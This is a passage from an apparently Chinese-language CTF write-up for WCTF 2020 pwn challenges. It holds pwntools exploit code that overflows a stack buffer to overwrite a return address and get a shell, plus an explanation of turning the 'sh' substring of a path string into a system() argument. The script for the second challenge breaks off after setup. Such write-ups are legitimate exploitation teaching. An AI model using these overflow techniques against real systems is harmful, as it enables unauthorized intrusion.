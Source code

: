 ```python
global_max_fast=0x3c67f8
codebase = 0x555555554000
def loginfo(what='',address=0):
	log.info("\033[1;36m" + what + '----->' + hex(address) + "\033[0m")

# todo here
p.recvuntil("\\ \n")
p.send('a'*(0x18+4)+p32(0x0804851B))


p.interactive()
```

## getshell2 - 7 solves

>Author: ColdShield

flag:`wctf2020{Sh_Als0_w0rks}`

**程序分析**

![GndxVx.png](https://s1.ax1x.com/2020/03/30/GndxVx.png)

和前面那个程序的保护一样

![Gndb24.png](https://s1.ax1x.com/2020/03/30/Gndb24.png)

具体漏洞在`vulnerable`函数中，栈溢出，溢出`0x24-0x18`可覆盖0xC个字节，可覆盖返回地址和函数第一个参数

但是程序的后门是这样的

![GndHGF.png](https://s1.ax1x.com/2020/03/30/GndHGF.png)

![Gnd7PU.png](https://s1.ax1x.com/2020/03/30/Gnd7PU.png)

很显然`/bbbbbbbbin_what_the_f?ck__--??/sh`不是一个正常路径，像之前那样设置返回地址到这个函数直接去执行肯定会失败，此时就需要知道环境变量中的`PATH`是什么东西，以及sh这个shell程序是怎么被`system`找到然后调用的(自行百度吧...这里不解释了)

知道了PATH之后
因为我们程序中函数调用字符串的时候，都是通过字符串指针调用的

![Gndjq1.png](https://s1.ax1x.com/2020/03/30/Gndjq1.png)

我们直接使用该字符串中`sh`地址(0x08048670)的作为参数然后将返回地址直接设置成`call system`的地址(0x08048529)即可

**EXP**

```python
# -*- coding: utf-8 -*-
from __future__ import print_function
from pwn import *

binary = 'getshell-2'	#binary's name here
context.binary = binary		#context here
context.log_level='debug'
pty = process.PTY
#p = process(binary, aslr = 1, stdin=pty, stdout=pty)	#process option here

Host ='0.0.0.0'
Port =2334
p = remote(Host,Port)

elf = ELF(binary)
libc = elf.libc

my_u64 = lambda x: u64(x.ljust(8, '\x00'))
my_u32 = lambda x: u32(x.ljust(4, '\x00'))
```